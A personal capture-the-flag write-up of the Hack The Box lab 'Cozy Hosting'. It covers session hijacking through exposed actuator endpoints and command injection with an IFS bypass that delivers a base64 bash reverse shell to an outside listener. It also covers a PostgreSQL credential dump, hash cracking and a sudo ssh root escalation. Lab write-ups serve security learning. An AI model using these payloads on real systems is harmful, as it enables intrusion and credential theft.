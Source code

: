 ```yaml
---
Title: Cozy Hosting HTB Machine
Year: "2023"
Difficulty: Easy
share: "true"
---
```


- [[#Reconnaissance|Reconnaissance]]
- [[#Weaponisation|Weaponisation]]
- [[#Exploitation|Exploitation]]
- [[#Installation|Installation]]
- [[#Actions on Objective|Actions on Objective]]
## Reconnaissance

- Tried to hit it with a webbrowser and the default page redirected to cozyhosting.htb
- Added that to my hosts file and refreshed the page
- Nothing much on the page except a login
- Ran `dirsearch -u http://cozyhosting.htb`
- Found the following
![[Screenshot 2023-12-08 at 9.54.21 pm.png|Screenshot 2023-12-08 at 9.54.21 pm.png]]
- Browsed to /actuator and gave a list of what looks like sessions
- Browsed to /actuator/sessions
- Found this 
	- `{"9D349761064F219907F86799A94695D9":"kanderson"
- This looks like an authenticated session
- Opened up Burpsuit and browsed back to actuator to get a better look. Definitely authenticated sessions
![[Screenshot 2023-12-08 at 9.30.36 pm.png]]


- If I go to the http://cozyhosting.htb/admin page and enter the username kanderson and a random password it rejects it but I now have the request. 
![[Screenshot 2023-12-08 at 9.32.44 pm.png]]
## Weaponisation

- I can now manipulate the sessionid to hopefully get into the administration page.
- So I turn on interception and inject the authenticated sessionid into the request at each step and bingo I'm in. 

![[Screenshot 2023-12-08 at 9.35.38 pm.png]]

![[Screenshot 2023-12-08 at 9.35.49 pm.png]]

- Looking around and the area of most interest is at the bottom of the screen. It's a form that accepts a Hostname and a Username. 
- It also mentions authorised_keys files so this must be something to do with ssh.
- If I enter a hostname of localhost and username it is sending a POST command to /executessh and complains that the Host Key verification has failed. 
- This looks promising so I send this over to repeater to start some further enumeration
![[Screenshot 2023-12-08 at 9.40.05 pm.png]]
## Exploitation

- If I remove both the hostname and the username it complains about an Invalid Hostname
![[Screenshot 2023-12-08 at 9.41.52 pm.png]]

- If I enter the hostname but leave the username empty I get the output from the ssh command when no parameters are specified. So this endpoint is running a local command that includes the username and hostname. It is likely `ssh <username>@<hostname>` or something similar. 
![[Screenshot 2023-12-08 at 9.53.21 pm.png]]
- This could be open to a command line injection attack. 
- There appears to be some data verification on the username field. It won't allow whitespaces. So we'll need to use URL encoding to utilise this. 
- This part was beyond my current skill level so required some prompting from guides. 
- To get around the whitespace restriction we'll use the Input Field Separator (IFS) along with encoding our commands with base 64 so that there are no special characters that we have to deal with. 
- Firstly we'll confirm that things work like I think they will. 
- I issue the command `;sleep${IFS}5;#`. This does as expected and delays the response by 5 secconds.

![[Screenshot 2023-12-08 at 9.53.21 pm 1.png]]
## Installation

- So now I need to generate a payload that I can send to pop a reverse shell
- I use the following command to encode my reverse shell command with base 64
	- `echo "bash -i >& /dev/tcp/10.10.14.179/4242 0>&1" | base64 -w 0`
- I then craft the following line that will be URL encoded and sent to the target
```
;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNzkvNDI0MiAwPiYxCg=="${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
``` 
- I then throw that into repeater and use burp to encode the URL

![[Screenshot 2023-12-08 at 10.00.16 pm.png]]
- That gives me the following command
```
host=localhost&username=%3becho${IFS%25%3f%3f}"YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xNzkvNDI0MiAwPiYxCg%3d%3d"${IFS%25%3f%3f}|${IFS%25%3f%3f}base64${IFS%25%3f%3f}-d${IFS%25%3f%3f}|${IFS%25%3f%3f}bash%3b
```

![[Screenshot 2023-12-08 at 10.00.26 pm.png]]

- The final step is to start up a listener with
	- `nc -lvnp 4242`
- Then send the request to the target and we're now in
![[Screenshot 2023-12-08 at 10.03.49 pm.png]]
- Before we do anything we'll upgrade the shell so that it's fully interactive and stable

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
ctrl + z
stty raw -echo; fg
```

## Actions on Objective

- The first thing we find is a jar file (cloudhosting-0.0.1. Jar) so I download that to look at.
- Further enumeration reveals postgresql is running on the server as well as Nginx.
- There's a /home/josh folder but I don't have access to it.
- There are also no sudo commands that can be run without a password. 
- I can't find any files that relate to DB Credentials and assuming that the Website is utilising a DB then my next port of call is to get access to the DB. 
- However, I attempt to run the jar file to see what happens and it appears to be the application running the Cloudhosting website so we'll take a look at that. 

![[Screenshot 2023-12-08 at 10.09.33 pm 2.png]]
- Once again I'm not familiar with JAR files so I deferred to the guides and they opened the file with jd-gui. 
- I also extracted the jar with unzip but the files are compiled classes so you can't view them that way. 
- I tried searching for passwords and usernames but not being familiar with the structure of a java app I was lost. 
- They were actually located in:
	- BOOT-INF --> classes --> applilcation.properties
- I was able to recover the DB Credentials
	- Database: cozyhosting
	- Username: postgres
	- Password: Vg&nvzAQ7XxR
![[Screenshot 2023-12-08 at 10.27.43 pm.png]]

- The java file listed the database as POSTGRESQL but that didn't work when I tried to dump the DB. 
- So I connected to the PostgreSQL server using the following
	- `pgsql -U postgres -W -h localhost`
- I then listed all the databases with `\l` and the DB I was after was called cozyhosting
- So I exited out of pgsql and then used the pg_dump to dump the DB
	- `pg_dump -U postgres -W -h localhost -d cozyhosting > dump`
- Sifting through the dump file I found some user account password hashes

```
anderson:$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim:User
admin:$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:Admin
```

- I pulled these back and ran John the Ripper with the following command:
	- `john --wordlist=~/01.\ Tools/Wordlists/rockyou.txt hashes `
- Recovered the admin password: **manchesterunited**
- In case they've reused passwords I tried to ssh in using josh and the recovered password
	- `ssh josh@10.10.11.230`
- It worked and I was able to recover the user flag
	- `a8e773864da966dbae96019c7c4cf1bc`
- Some quick enumeration turns up that Josh can run ssh as sudo
![[Screenshot 2023-12-08 at 11.11.27 pm.png]]
- GTFO Bins has an easy payload that will pop a root shell using SSH
	- `sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`
- I ran that and was able to recover the root flag
	-  `35447aff2b1f7694a0c4a05db616f4d4 `

